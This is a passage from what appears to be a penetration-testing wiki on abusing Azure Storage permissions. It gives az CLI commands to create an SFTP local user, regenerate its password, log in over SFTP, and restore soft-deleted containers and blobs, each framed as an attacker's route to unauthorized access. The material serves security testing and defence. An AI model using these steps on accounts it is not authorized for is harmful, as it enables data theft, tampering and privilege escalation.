 {% code overflow="wrap" %}
```bash
az storage account local-user create \
  --account-name <STORAGE_ACCOUNT_NAME> \
  --resource-group <RESOURCE_GROUP_NAME> \
  --name <LOCAL_USER_NAME> \
  --permission-scope permissions=rwdl service=blob resource-name=<CONTAINER_NAME> \
  --home-directory <HOME_DIRECTORY> \
  --has-ssh-key false/true # Depends on the auth method to use
```
{% endcode %} 

### Microsoft.Storage/storageAccounts/localusers/regeneratePassword/action

With this permission, an attacker can regenerate the password for a local user in an Azure Storage account. This grants the attacker the ability to obtain new authentication credentials (such as an SSH or SFTP password) for the user. By leveraging these credentials, the attacker could gain unauthorized access to the storage account, perform file transfers, or manipulate data within the storage containers. This could result in data leakage, corruption, or malicious modification of the storage account content.

{% code overflow="wrap" %}
```bash
az storage account local-user regenerate-password \
  --account-name <STORAGE_ACCOUNT_NAME> \
  --resource-group <RESOURCE_GROUP_NAME> \
  --name <LOCAL_USER_NAME>
```
{% endcode %}

To access Azure Blob Storage via SFTP using a local user via SFTP you can (you can also use ssh key to connect):

{% code overflow="wrap" %}
```bash
sftp <local-user-name>@<storage-account-name>.blob.core.windows.net
#regenerated-password
```
{% endcode %}

### Microsoft.Storage/storageAccounts/restoreBlobRanges/action, Microsoft.Storage/storageAccounts/blobServices/containers/read, Microsoft.Storage/storageAccounts/read && Microsoft.Storage/storageAccounts/listKeys/action

With this permissions an attacker can restore a deleted container by specifying its deleted version ID or undelete specific blobs within a container, if they were previously soft-deleted. This privilege escalation could allow an attacker to recover sensitive data that was meant to be permanently deleted, potentially leading to unauthorized access.

{% code overflow="wrap" %}
```bash
#Restore the soft deleted container
az storage container restore \
  --account-name <STORAGE_ACCOUNT_NAME> \
  --name <CONTAINER_NAME> \
  --deleted-version <VERSION>

#Restore the soft deleted blob
az storage blob undelete \
  --account-name <STORAGE_ACCOUNT_NAME> \
  --container-name <CONTAINER_NAME> \
  --name "fileName.txt"
```
{% endcode %}
